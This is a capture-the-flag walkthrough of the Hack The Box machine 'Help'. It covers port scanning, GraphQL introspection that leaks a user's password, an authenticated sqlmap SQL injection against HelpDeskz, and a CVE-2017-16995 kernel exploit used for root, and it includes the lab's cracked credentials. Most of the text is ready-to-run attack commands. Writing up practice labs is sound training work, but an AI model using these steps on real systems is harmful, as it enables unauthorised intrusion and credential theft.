

# [Help](https://app.hackthebox.com/machines/Help)

```bash
nmap -p- --min-rate 10000 10.10.10.121 -Pn
```


After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80,3000 10.10.10.121
```


From nmap scan result, we see that this ip address is resolved into `help.htb`, let's add this into `/etc/hosts` file.


First, let's look at port `3000` to see what's happening here.


From my guess, it is API , let's do `directory enumeration` for this API to find possible endpoints.
```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/api/api-endpoints.txt -t 40 -u http://help.htb:3000/
```


I see that it is `GrapQL` api, let's look at [documentation](https://graphql.org/learn/introspection/) of this to find interesting stuff from here.

Tha's called `introspection` feature of `GraphQL`.

```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __schema { queryType { name, fields { name, description } } } }" }' | jq  -c .
```


I find `User`, let's get fields of this.
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __type(name: \"User\") { name fields { name } } }" }' | jq .
```


Now, it's time to get values of this fields.
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ user { username password } }" }' | jq .
```


Let's crack this salted password via [Crackstation](https://crackstation.net)


helpme@helpme.com: godhelpmeplz


Let's `directory enumeration` for port `80` to find interesting stuff from here.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 40 -u http://help.htb/
```


I found web application on `/support` endpoint.


Let's login into this web application via grabbed credentials from `GraphQL` API.


Now, let's search publicly known exploit for this version of `HelpDeskz` software.


Let's use SQL injection vulnerability (authenticated) which is located on `Ticket Attachment` feature.


Let's do this attack via `sqlmap` tool.
```bash
sqlmap -u "http://help.htb/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6" --level 5 --risk 3 -p param[]
```


I dump credentials from `support` database and `staff` table.


help: Welcome1

That's password of `help` user on our target machine.

user.txt




While I run `uname -a` command to see kernel's version, I see that is vulnerable [CVE-2017-16995](https://www.exploit-db.com/exploits/44298)


Let's upload this malicous `.c` file into machine , compile and run.

For uploading, I will use `scp` command.
```bash
scp 44298.c help@help.htb:/tmp
```


Let's compile this malicious `.c` script.
```bash
gcc -o exploit 44298.c
./exploit
```


root.txt

